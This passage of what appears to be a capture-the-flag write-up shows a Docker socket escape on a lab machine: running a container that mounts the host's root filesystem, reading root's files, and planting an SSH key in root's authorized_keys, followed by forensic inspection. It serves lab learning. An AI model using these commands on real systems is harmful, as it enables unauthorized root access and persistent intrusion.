     docker              100%[===================>]  51.46M  10.4MB/s    in 5.0s    
    
    2020-09-03 02:01:11 (10.3 MB/s) - ‘docker’ saved [53959101/53959101]
    
    root@2d24bf61767c:~# chmod +x docker
    

Now I can run a container the same way I have in other Docker privescs:

    
    
    root@2d24bf61767c:~# ./docker run -v /:/rootfs --rm -it sandbox sh
    / #
    

The arguments are:

  * `-v /:rootfs` \- map the hosts `/` to `/rootfs` in the container as a volume
  * `--rm` \- remove the container when it exits
  * `-i` \- interactive
  * `-t` \- allocate a pseudo-TTY
  * `sandbox` \- the name of the image to start
  * `sh` \- the command to run in the container

Once inside, I can find the file system just as before:

    
    
    / # cd rootfs/
    /rootfs # ls
    bin         home        lost+found  root        swap.img
    boot        lib         media       run         sys
    cdrom       lib32       mnt         sbin        tmp
    dev         lib64       opt         snap        usr
    etc         libx32      proc        srv         var
    /rootfs # cd root/
    /rootfs/root # ls
    root.txt  snap
    

### Forensics

How is the container able to execute commands on the host? I was interactiving
with `/var/run/docker.sock` in the container. With a root shell on Feline,
I’ll investigate. I dropped a SSH key into `/root/.ssh/authorized_keys` and
connected to Feline as root.

To see running containers, I’ll run `docker ps`:

    
    
    root@VirusBucket:~# docker ps
    CONTAINER ID        IMAGE               COMMAND                  CREATED             STATUS              PORTS                                                                  NAMES
    2d24bf61767c        188a2704d8b0        "/usr/bin/dumb-init …"   2 months ago        Up 10 hours         127.0.0.1:4505-4506->4505-4506/tcp, 22/tcp, 127.0.0.1:8000->8000/tcp   saltstack
    

`docker inspect [container id]` will dump a _ton_ of config information about
the container. I’ll dump it to a file, and on searching for `docker.sock`,
find this section:
